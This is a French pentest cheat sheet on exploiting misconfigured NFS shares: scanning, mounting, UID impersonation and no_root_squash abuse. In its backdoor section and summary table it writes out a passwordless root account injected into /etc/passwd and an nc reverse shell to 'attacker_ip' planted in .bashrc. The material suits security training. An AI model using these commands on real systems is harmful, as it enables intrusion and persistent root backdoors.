

Le protocole **NFS** (Network File System) permet le partage de fichiers entre systèmes sur un réseau. Une mauvaise configuration peut mener à un accès non autorisé, à l'exécution de code à distance (**RCE**) ou à une escalade de privilèges.



## Détection du service

### Scanner les ports avec nmap
Le service **NFS** repose sur le **Portmapper** (RPCbind) pour la découverte des services.

```bash
nmap -p 111,2049 --script=nfs-ls,nfs-statfs,nfs-showmount target.com
```

Sortie indicative :
```text
111/tcp  open  rpcbind
2049/tcp open  nfs
```

### Utilisation de rpcinfo
> [!note]
> L'utilisation de **rpcinfo** permet d'identifier les programmes RPC enregistrés sur l'hôte distant. Cette commande est essentielle pour confirmer les versions de protocole supportées (NFSv2, v3, v4).

```bash
rpcinfo -p target.com
```

## Découverte des partages

### Lister les systèmes de fichiers exportés
La commande **showmount** permet d'interroger le démon **mountd** pour lister les répertoires exportés.

```bash
showmount -e target.com
```

Sortie indicative :
```text
Export list for target.com:
/home/user  (everyone)
/backup     (192.168.1.0/24)
```

### Lister les partages avec nmap
```bash
nmap --script=nfs-showmount -p 111 target.com
```

## Montage des partages

> [!warning]
> Le montage **NFS** nécessite l'installation du paquet **nfs-common** sur la machine attaquante.

### Configuration du client (nfs-common)
Sur les distributions basées sur Debian/Ubuntu, assurez-vous que les outils clients sont installés pour supporter les montages NFS :

```bash
sudo apt update && sudo apt install nfs-common
```

### Montage d'un partage
```bash
mkdir /mnt/nfs
mount -t nfs target.com:/home/user /mnt/nfs
```

### Montage avec options spécifiques
```bash
mount -o rw,vers=3 target.com:/backup /mnt/nfs
```

### Dépannage des erreurs de montage
Si le montage échoue, vérifiez les logs système ou utilisez le mode verbeux pour identifier les erreurs de protocole ou de droits :

```bash
mount -v -t nfs target.com:/home/user /mnt/nfs
dmesg | tail -n 20
```

## Vérification des permissions

### Analyse des droits
```bash
ls -la /mnt/nfs
```

### Gestion des UID/GID (mapping des utilisateurs)
> [!info]
> La gestion des **UID/GID** est basée sur l'identité numérique. Si l'**UID** de l'attaquant correspond à celui d'un utilisateur sur le serveur, les permissions seront appliquées en conséquence. Vous pouvez créer un utilisateur local avec le même UID pour usurper des droits :

```bash
# Vérifier l'UID sur le partage
ls -n /mnt/nfs
# Créer un utilisateur local correspondant pour manipuler les fichiers
sudo useradd -u 1001 temp_user
sudo su temp_user
```

## Escalade de privilèges

> [!danger]
> Risque de corruption de fichiers système lors de la modification de **/etc/passwd**.

### Vérification de no_root_squash
La directive **no_root_squash** permet à un client distant de conserver ses privilèges root lors de l'accès au partage.

> [!danger]
> La commande **grep** sur **/etc/exports** ne fonctionne que si vous avez déjà accès au système de fichiers local du serveur, ce qui est rare en pentest externe.

```bash
grep 'no_root_squash' /etc/exports
```

### Création d'un fichier root
Si **no_root_squash** est actif, la création d'un fichier depuis le client avec les droits root sera effective sur le serveur.

```bash
touch /mnt/nfs/root_access
```

## Exploitation (Backdoor)

### Ajout d'un utilisateur root
```bash
echo 'hacker::0:0:Hacked:/root:/bin/bash' >> /mnt/nfs/etc/passwd
```

### Backdoor via script bash
```bash
echo 'nc -e /bin/bash attacker_ip 4444' >> /mnt/nfs/home/user/.bashrc
```

## Nettoyage des traces
Une fois l'engagement terminé, il est impératif de supprimer les modifications effectuées pour éviter de laisser des accès persistants ou des fichiers corrompus :

```bash
# Supprimer l'utilisateur ajouté dans /etc/passwd
sed -i '/hacker/d' /mnt/nfs/etc/passwd
# Supprimer les fichiers créés
rm /mnt/nfs/root_access
# Démonter le partage
sudo umount /mnt/nfs
```

## Résumé des techniques

| Étape | Commande |
| :--- | :--- |
| Scanner NFS | `nmap -p 111,2049 --script=nfs-* target.com` |
| Lister les partages | `showmount -e target.com` |
| Monter un partage | `mount -t nfs target.com:/home/user /mnt/nfs` |
| Vérifier `no_root_squash` | `grep 'no_root_squash' /etc/exports` |
| Créer utilisateur root | `echo 'hacker::0:0::/root:/bin/bash' >> /mnt/nfs/etc/passwd` |
| Shell inversé | `echo 'nc -e /bin/bash attacker_ip 4444' >> /mnt/nfs/home/user/.bashrc` |

### Liens associés
- [Linux Enumeration](Linux Enumeration)
- [Privilege Escalation - Linux](Privilege Escalation - Linux)
- [Reverse Shells](Reverse Shells)
- [Network Protocols](Network Protocols)